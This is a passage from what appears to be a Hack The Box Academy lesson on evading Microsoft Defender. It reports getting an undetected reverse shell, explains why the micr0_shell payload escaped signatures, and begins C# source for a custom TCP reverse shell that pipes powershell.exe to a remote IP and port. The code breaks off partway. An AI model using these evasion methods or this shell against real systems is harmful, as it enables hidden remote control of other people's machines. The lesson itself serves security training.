 ![image](https://academy.hackthebox.com/storage/modules/254/2/59.png)

Now, when we run `NotMalware.exe` from the `Desktop` with `Real-time protection` enabled, we notice that we get a reverse shell and can interact with it without getting detected by `Microsoft Defender Antivirus`.

![image](https://academy.hackthebox.com/storage/modules/254/2/53.png)

## Option 3: Writing Custom Tools

Given their prevalence in offensive security operations (and cybercrimes), antivirus solutions maintain various signatures for open-source tools like `Metasploit` and `Mimikatz`. However, it often takes time for antivirus solutions to develop signatures for new and immature tools. In this section, we successfully evaded detection by substituting the `Meterpreter` payload with the `micr0_shell` payload. This approach was effective because it's probable that `Microsoft Defender Antivirus` does not currently include a signature for this specific shellcode. Consequently, even if a memory scan is initiated, no suspicious events are likely to be detected. However, it's not unlikely that a signature will be added in the future if the use of `micr0_shell` becomes more widespread among attackers.

This brings us to our third and final option, which is the most effective, but also most time-consuming - writing custom tools. When using custom tools, neither `static` nor `behavioral` analysis poses an issue, since they will not match any `known malicious signatures`.

As an example, let's write a simple `TCP reverse shell` program, which will not require any `obfuscation` or `encryption` since it does not use any known malicious component present in an antivirus solution signatures database. Open `Visual Studio 2022` and create a new `Console App (.NET Framework)` project called `RShell`.

![image](https://academy.hackthebox.com/storage/modules/254/2/54.png)

To develop a reverse shell in C#, we will need to make use of the following classes:

- [System.Net.Sockets.TcpClient](https://learn.microsoft.com/en-us/dotnet/api/system.net.sockets.tcpclient?view=net-8.0) to handles the `TCP` connection
- [System.Diagnostics.Process](https://learn.microsoft.com/en-us/dotnet/api/system.diagnostics.process?view=net-8.0) to spawn the `cmd.exe` or `powershell.exe` process
- [System.IO.StreamReader](https://learn.microsoft.com/en-us/dotnet/api/system.io.streamreader?view=net-8.0), [System.IO.StreamWriter](https://learn.microsoft.com/en-us/dotnet/api/system.io.streamwriter?view=net-8.0) to `read/write` to the `TCP stream`

One example of a simple C# reverse shell is provided below. It establishes a connection to an IP address and port specified on the command line, spawns a `powershell.exe` process, and redirects communication for `STDOUT`, `STDIN`, and `STDERR` to the process.

```csharp
using System;
using System.IO;
using System.Net.Sockets;
using System.Diagnostics;

namespace RShell
{
    internal class Program
    {
        private static StreamWriter streamWriter; // Needs to be global so that HandleDataReceived() can access it

        static void Main(string[] args)
        {
            // Check for correct number of arguments
            if (args.Length != 2)
            {
                Console.WriteLine("Usage: RShell.exe <IP> <Port>");
                return;
            }

```
